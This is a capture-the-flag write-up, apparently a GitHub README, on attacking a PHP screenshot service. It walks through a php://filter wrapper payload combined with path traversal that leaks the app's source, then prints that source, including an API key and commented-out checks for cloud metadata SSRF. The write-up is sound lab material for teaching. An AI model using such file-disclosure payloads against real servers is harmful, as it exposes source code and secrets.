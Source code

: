 ![image](https://user-images.githubusercontent.com/67979878/128135525-c48bacba-e62c-47ca-b5ec-fb36bc5165a9.png)
it looks like it takes a screenshot and display it .
![image](https://user-images.githubusercontent.com/67979878/128136423-73a60cac-06ec-46f8-a4f9-4d1dbf05d7bf.png)

as we can see the web app uses a vulnerable php function 
![image](https://user-images.githubusercontent.com/67979878/128136447-5695e840-bca1-4237-8164-30641cb69941.png)


link: http://ec2-54-184-225-39.us-west-2.compute.amazonaws.com/screenshot/?url=11111111111111111111111&server=http%3A%2F%2Finternalapi1.local%2F

as we can notice to have previous response browser sent 2 parameters url,server 

there is an image return each time in the view source page we can download it and see results .

after serveral trials i find out that :

- it makes sure server conatin internalapi.localx or returns not valid url  
- if doesn't exist will have an empty image

payload :

i used a php wrapper as a payload to view /index.php .
in url sending parameters :

?url=&server=php://filter/convert.base64-encode/resource=internalapi3.local/../index.php

now we have a valid image ! , i downloaded it as .txt beacuse i know it is a php base64 encoded 

decoding it and removing non interesting parts of it .
```
<?php

if(isset($_GET['url'])){
    //--- Set the parameters --------------//
    $url  = $_GET['server'].$_GET['url'];
    $apikey = "ab6e7c527efda467019ba2687739c74c089fe5cd9c2a";
    $file = __DIR__.'/thumbs/'.md5($url).'.jpg';
    $fileURL = 'thumbs/'.md5($url).'.jpg';
    $width  = 640;
    $fetchUrl = "https://api.thumbnail.ws/api/".$apikey ."/thumbnail/get?url=".urlencode($url)."&width=".$width;
    $fakeUrl = $url;

    if(filter_var($url, FILTER_VALIDATE_URL)) {
        $r = parse_url($url);
        //print_r($r);

        if(!preg_match('/internalapi[1-9]\.local/', $url)) {
            echo 'Invalid HOST:-'.'<br />';
            echo 'You must choose one of our internal apis internalapi [1:9] only'.'<br />';
            echo 'Given: '.htmlentities($url);
            exit;
        }

    // if(strstr($url,'@')){   //if url contain @

    //     $info = explode('@',$url);
    //     $url = $info[1];

    //     $serverIP = '54.187.57.106';
    //     $supposeURL = '54.187.57.106/latest/meta-data/hostname';
    //     $supposeURL2 = '127.0.0.1/latest/meta-data/hostname';

    //     if(strstr($url,$supposeURL) || strstr($url,$supposeURL2))
    //      {
    //         $jpeg =  'Server!Host@Flag';
    //         file_put_contents($file, $jpeg);
            }
    ?>


```


you can see ` $jpeg =  'Server!

@Flag';`



